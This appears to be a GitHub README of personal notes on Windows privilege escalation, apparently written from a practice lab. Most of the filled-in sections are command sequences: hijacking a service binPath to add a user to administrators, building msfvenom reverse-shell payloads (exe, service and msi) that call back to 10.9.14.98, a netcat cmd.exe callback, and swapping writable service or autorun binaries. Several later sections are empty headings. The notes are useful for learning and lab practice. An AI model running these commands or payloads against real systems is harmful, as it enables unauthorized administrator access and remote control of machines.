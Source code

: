 For Windows Priviledge Escalation guide you can follow these two posts:


1-https://www.fuzzysecurity.com/tutorials/16.html


2-https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/


HERE'S HOW I APPROACH FOR ESCALATING PRIVILEDGES:

![Windows_priv_esc_password_credentials](https://user-images.githubusercontent.com/55708909/92549895-fb567a00-f277-11ea-947d-8929d12b723d.png)


1- Services (binpath):
-----------------------------------------------------------------------
         First transfer the accesschk64.exe to system 
   
         Run accesschk64.exe -accepteula
   
         Run accesschk64.exe -wvuc "Service name"       accesschk64.exe -wvuc daclsvc
   
   ![Service(BIn_Path)](https://user-images.githubusercontent.com/55708909/92556310-390ecf00-f287-11ea-8a85-1af55670e7aa.png)

          You will see that everyone has read and write permission to change SERVICE_CHANGE_CONFIG
          
          Write this: sc config daclsvc binPath= "net localgroup administrators user /add"
          
          Then write this : sc start daclsvc 
          
          You will be added to admin group 

![Service(BIn_Path_1)](https://user-images.githubusercontent.com/55708909/92556850-8c355180-f288-11ea-982b-b02fd5864ca2.png)


2- Services (Unquoted path):
---------------------------------------------------------------------------------------
          For it to work we need to identify which are the path which are not included in quotes
          
          wmic service get name,pathname,startmode | findstr /i /v "c:\windows\\" | findstr /i /v """
          
 ![Service(Unquoted_path)](https://user-images.githubusercontent.com/55708909/92557524-05817400-f28a-11ea-9d03-b9f21efc8826.png)

          First transfer nc.exe to C:\Users\user directory
          
          msfvenom -p windows/exec CMD="C:\Users\user\nc.exe 10.9.14.98 443 -e cmd.exe" -f exe-service > common.exe
          
          Transfer the common.exe to C:\Program Files\Unquoted Path Service
          
          type sc start unquotedsvc
          
 ![Service(Unquoted_path_1)](https://user-images.githubusercontent.com/55708909/92558713-c3a5fd00-f28c-11ea-9423-fe436ac65491.png)
         
          

3- Service (Registry):
-------------------------------------------------------------------------------------------

4- Services( Executable files):
---------------------------------------------------------------------------------------------
          
           Transfer the accesschk.exe to pc and check for weak executable service
           
![Service(Executable)](https://user-images.githubusercontent.com/55708909/92559368-1a600680-f28e-11ea-940d-2472ece84622.png)
 
            We notice that everyone has read and write access to filepermservice.exe
            
            msfvenom -p windows/shell_reverse_tcp LHOST=10.9.14.98 LPORT=4444 -f exe > filepermservice.exe
            
            transfer filepermservice.exe to target system
            
            copy /y filepermservice.exe "C:\Program Files\File Permissions Service"

            sc start filepermsvc 
            
![Service(Executable_1)](https://user-images.githubusercontent.com/55708909/92560004-45972580-f28f-11ea-88fd-f5c365dd41ef.png)

           
5- Registry (Always installed elevated):
---------------------------------------------------------------------------------------------
            
            reg query HKLM\Software\Policies\Microsoft\Windows\Installer
            
            reg query HKCU\Software\Policies\Microsoft\Windows\Installer
            
            If they gave output as 1 then this means we can create our payload in msi format and can escalate priv
            
            msfvenom -p windows/shell_reverse_tcp LHOST=10.9.14.98 LPORT=4444 -f msi > access.msi

            Transfer it to target machine
            
            msiexec /quiet /qn /i C:\Users\user\access.msi
 
            Netcat session with admin rights
            
![Registry(Always_install)](https://user-images.githubusercontent.com/55708909/92560985-ef2ae680-f290-11ea-8166-aeb34190e869.png)
            
6- Registry (Modified autorun): Need to have admin login to work
-------------------------------------------------------------------------------------------------
             
   ![REgistry_auto_run](https://user-images.githubusercontent.com/55708909/92561769-72007100-f292-11ea-919a-444e7874cd5b.png)
   
             As you can see everyone has read and write to program.exe this means simply replace that executable
              
             with your version of executable and wait for admin to login and have admin rights

7- Password minig (Registry):
-------------------------------------------------------------------------------------------

8- Password mining (Memory)
-----------------------------------------------------------------------------------------

9- Password mining (Configuration Files):
------------------------------------------------------------------------------------------
        
![Password_mining(Configuration)](https://user-images.githubusercontent.com/55708909/92562987-7ded3280-f294-11ea-9a0e-b9551fae7529.png)

            
10- Scheduled tasks (Missing binary):
------------------------------------------------------------------------------------------

11- Startup applications:
--------------------------------------------------------------------------------------------

12- Potato attacks:
--------------------------------------------------------------------------------------------

13- DLL Hijacking:
----------------------------------------------------------------------------------------------

14-Kernel exploits:
----------------------------------------------------------------------------------------------
